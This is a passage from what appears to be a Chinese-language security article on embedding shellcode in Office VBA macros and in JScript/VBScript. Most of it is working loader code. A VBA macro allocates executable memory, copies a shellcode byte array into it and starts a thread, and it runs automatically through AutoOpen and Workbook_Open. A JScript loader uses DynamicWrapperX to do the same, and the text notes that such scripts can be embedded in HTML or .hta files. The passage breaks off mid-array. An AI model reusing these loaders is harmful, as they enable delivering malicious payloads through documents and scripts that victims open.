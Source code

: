 ```
        bShellcode(2) = 255
        bShellcode(3) = 255
        bShellcode(4) = 255
        bShellcode(5) = 192
        bShellcode(6) = 95
        bShellcode(7) = 185
        bShellcode(8) = 85
        bShellcode(9) = 3
        bShellcode(10) = 2
        bShellcode(11) = 2
        bShellcode(12) = 129
        bShellcode(13) = 241
        bShellcode(14) = 2
        bShellcode(15) = 2
        bShellcode(16) = 2
                .....................
lpMemory = VirtualAlloc(0, UBound(bShellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE)
    For i = LBound(bShellcode) To UBound(bShellcode)
        source = bShellcode(i)
        lResult = RtlMoveMemory(lpMemory + i, source, 1)
    Next i
    lResult = CreateThread(0, 0, lpMemory, 0, 0, 0)
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub
```

[https://github.com/OsandaMalith/Shellcodes/blob/master/CreateFile/CreateFile.vba](https://github.com/OsandaMalith/Shellcodes/blob/master/CreateFile/CreateFile.vba) 

<br>

**将Shellcode嵌入到VBS和JS代码中**

subTee做了很多关于JS和DynamicWrapperX的研究。你可以找到一个[使用DynamicWrapperX DLL的POC](http://subt0x10.blogspot.com/2016/09/shellcode-via-jscript-vbscript.html)，根据他的研究，我将Shellcode嵌入到了JS和VBS中。有趣的是，我可以将Shellcode嵌入JScript或VBScript脚本中，再将这些脚本内嵌到HTML或“.hta”格式的文件中：

JScript：



```
/*
 * Author : Osanda Malith Jayathissa (@OsandaMalith)
 * Title: Shellcode to request a non-existing network path
 * Website: https://osandamalith
 * Shellcode : https://packetstormsecurity.com/files/141707/CreateFile-Shellcode.html
 * Based on subTee's JS: https://gist.github.com/subTee/1a6c96df38b9506506f1de72573ceb04
 */
DX = new ActiveXObject("DynamicWrapperX"); 
DX.Register("kernel32.dll", "VirtualAlloc", "i=luuu", "r=u");
DX.Register("kernel32.dll","CreateThread","i=uullu","r=u" );
DX.Register("kernel32.dll", "WaitForSingleObject", "i=uu", "r=u");
var MEM_COMMIT = 0x1000;
var PAGE_EXECUTE_READWRITE = 0x40;
var sc = [
0xe8, 0xff, 0xff, 0xff, 0xff, 0xc0, 0x5f, 0xb9, 0x55, 0x03, 0x02, 0x02, 0x81, 0xf1, 0x02, 0x02, 0x02, 0x02, 0x83, 0xc7,
0x1d, 0x33, 0xf6, 0xfc, 0x8a, 0x07, 0x3c, 0x05, 0x0f, 0x44, 0xc6, 0xaa, 0xe2, 0xf6, 0xe8, 0x05, 0x05, 0x05, 0x05, 0x5e,
0x8b, 0xfe, 0x81, 0xc6, 0x29, 0x01, 0x05, 0x05, 0xb9, 0x02, 0x05, 0x05, 0x05, 0xfc, 0xad, 0x01, 0x3c, 0x07, 0xe2, 0xfa,
```